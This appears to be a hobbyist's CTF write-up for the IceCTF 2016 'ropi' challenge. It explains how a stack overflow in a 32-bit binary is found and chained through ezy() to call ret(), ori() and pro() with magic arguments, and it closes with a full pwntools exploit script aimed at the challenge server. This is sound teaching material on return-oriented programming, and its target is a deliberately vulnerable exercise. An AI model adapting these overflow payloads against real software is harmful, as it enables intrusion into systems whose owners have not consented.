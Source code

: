 #Nullo0inter's ropi write up for IceCTF 2016

##Ropi Pwn 75pts
Ritorno orientata programmazione 
nc.ropi.vuln.icec.tf 6500

## Write Up
In this challange we are again given a download link for what we find out is a 32-bit ELF executeable binary. The challenge name and hint tell us we will probably be doing rop but beyond that or the specifics we don't really know yet. When we fire up the binary we get the following:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?

```

Uh oh, Italian. I don't speak that so I threw it into Google Translate and got the following translation:

```
Welcome to Pro Rectors conference!
Wants to leave a message?
```

So ok, its supposed to let me leave like a message. We get the gist. So now I tried entering just a bit of input to see normal execution:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
Never gonna give you up
addio!
```

It just comes back and prints addio!. Ok, now what? Well lets see if we can crash it:
```zsh
python -c "print 'D'*100" | ./ropi 
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[1]    72553 done                              python -c "print 'D'*100" | 
       72554 segmentation fault (core dumped)  ./ropi
```

YISSS, a core dump, lets examine that in gdb:

```
Stopped reason: SIGSEGV
0x44444444 in ?? ()
```
Awesome! It looks like we overwrote EIP, now we can generate a string with `ragg2` to take the guesswork (or real reversing) out of figuring out the buffer size:
```zsh
ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAA
```
Using the string ragg2 generated:
```
Stopped reason: SIGSEGV
0x41415041 in ?? ()
```
Translating that to an ASCII string we get 'AAPA'. There are two ways to do this now which are either copying the string right up to the first A and using something like len() in Python, but I'm going to use a builtin tool for radare2, `wopO <hex pattern>` which will basically search for how far off that pattern is in the string we generated:
```
 -- This is amazing ...
 [0x08048430]> wopO 0x41415041
 43
```

43 bytes of padding, alright, we can work with that. Now would be a good time to see where we actually get input and how much we get. We can do this by objdump or by IDA. I'm still learning to reverse so for now I'll just use IDA. 

Disassembling with IDA we get the following functions:

#####main:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
      ezy();
        puts("addio!");
          return 0;
}
```

#####ezy:
```C
ssize_t ezy()
{
      char buf; // [sp+10h] [bp-28h]@1

        puts("Benvenuti al convegno RetOri Pro!\nVuole lasciare un messaggio?");
          fflush(stdout);
            return read(0, &buf, 0x40u);
}
```

#####ret:
```C
int __cdecl ret(int a1)
{
      if ( a1 != -1159991569 )
            {
                    puts("chiave sbagliata! :(");
                        exit(1);
                          }
        fd = open("./flag.txt", 0);
          puts("[+] aperto");
            return fflush(stdout);
}
```

#####ori:
```C
int __cdecl ori(int a1, int a2)
{
      if ( a1 != -1412567041 && a2 != 2018915346 )
            {
                    puts("chiave sbagliata! :((");
                        exit(1);
                          }
        read(fd, &dati, 0x80u);
          puts("[+] leggi");
            return fflush(stdout);
}
```

#####pro:
```C
int pro()
{
      puts("[+] stampare");
        printf("%s", &dati);
          return fflush(stdout);
}
```
Using the disassembled functions we can see a few things. Firstly, we gain our input through a call to read and are given a max of 64 bytes (from nbytes being 0x40, which in decimal is 64). We know that for whatever reason, 43 or so bytes in we start to overwrite the EIP. This means we have *roughly* 20 bytes left to play with. Secondly we can see there are three functions other than `main()` and `ezy()` and each appears to have some part of loading and displaying the flag and have to be done in order.

We now know that we have 44 bytes to EIP, 20 bytes to play with including EIP overwrite, 3 functions that must be called in the order `ret()`->`ori()`->`pro()` (return oriented programming), and that these functions all (save `pro()`) appear to have some sort of check at the beginning. Converting those ugly looking numbers to hex we get that `ret()` wants an argument to be `0xbadbeeef` (thats beef with three 'e's) and `ori()` wants two which are 0xabcdefff and 0x78563412. If we fail to provide those then the program prints a failure message and exits.

What now? Well reviewing how ret2libc attacks work, we know that if we can hijack EIP as we have done then we can make it return to wherever we want in the program and do even more so long as we set the stack frame right. So first instinct is to try to make it do `main()`->`ezy()`->`ret()`->`ori()`->`pro()` but we quickly find that there is a problem. Distance to EIP is 44 bytes which leaves us with 20 bytes to craft the exploit. The addresses alone for ret, ori, and pro will take up 12 which leaves us with 8 bytes left. We then need to account for the 4 byte 'canary' in ret, and the two 4 byte 'canaries' in ori. Adding that all up we end up 4 bytes over what we have. That's a problem. So now what? Get clever with the rop gadgets?

Well if you recall I said we could use the EIP access to return ANYWHERE, and as it turns out our vulnerability is in its own function too: `ezy()`! So what do we do about it? Well we know during the same execution we must visit `ret()`,`ori()`, and `pro()` all in order and we also now know we can jump back to `ezy()` which means.... ARBITRARY JUMPING! 

If we first go to `ret()` and have it return to `ezy()` rather than `ori()` it means that we can rewrite our exploit and do it again, effectively "chaining" it, so that we can then jump to `ori()` and back to `ezy()` one final time to make a final jump to `pro()`

We have three seperate payloads we then need to construct:

```
payload one:    'A'*44<address of ret><address of ezy><0xbadbeeef>
payload two:    'A'*44<address of ori><address of ezy><0xabcdefff><0x78563412>
payload three:  'A'*44<address of pro><address of main, or just junk>
```

Luckily for us, pwntools makes sending these multiple encoded payloads really easy, setting it up just like that we get the following exploit script in python:

```Python
#!/usr/bin/python

# @nullp0inter
# IceCTF ROPI

from pwn import *

# Addresses
main        = 0x08048661
ezy_addr    = 0x0804852d
ret_addr    = 0x08048569
ret_can     = 0xbadbeeef
ori_addr    = 0x080485c4
ori_can1    = 0xabcdefff
ori_can2    = 0x78563412
pro_addr    = 0x0804862c

# Payload Generation
payload      = 'A'*44
payload     += p32(ret_addr)
    payload     += p32(ezy_addr)
    payload     += p32(ret_can)
    payload2     = 'A'*44
    payload2    += p32(ori_addr)
    payload2    += p32(ezy_addr)
    payload2    += p32(ori_can1)
    payload2    += p32(ori_can2)
    payload3     = 'A'*44
    payload3    += p32(pro_addr)
    payload3    += p32(main)

# Start Pwnage
    p = remote('ropi.vuln.icec.tf',6500) # Remote
#p = process('ropi') # local

    p.recv()
    p.sendline(payload)
    p.recv()
    p.sendline(payload2)
    p.recv()
    p.sendline(payload3)
    p.interactive()
```


##Special Thanks:
Once again I would love to thank the wonderful members (both past and present) of my club, wcsc, who helped me understand a lot of what was going on in this challenge and reach the solution. I learned a lot about return oriented programming along the way.

I also want to thank the creators at IceCTF for putting this challenge out there and making me spend hours and hours in gdb, making me fairly proficient with it now.

##Resources:
I found a ton of great resources during the challenge for learning about ROP attacks:

[Saumil Shah's 'Dive Into ROP'](http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming "Dive Into ROP")

[Saumil Shah's 'How Functions Work'](http://www.slideshare.net/saumilshah/how-functions-work-7776073 "How Functions Work")

[Jeffrey Crowell's Blog Post on "Pwning With Radare2"](http://crowell.github.io/blog/2014/11/23/pwning-with-radare2/ "Pwning With R2")
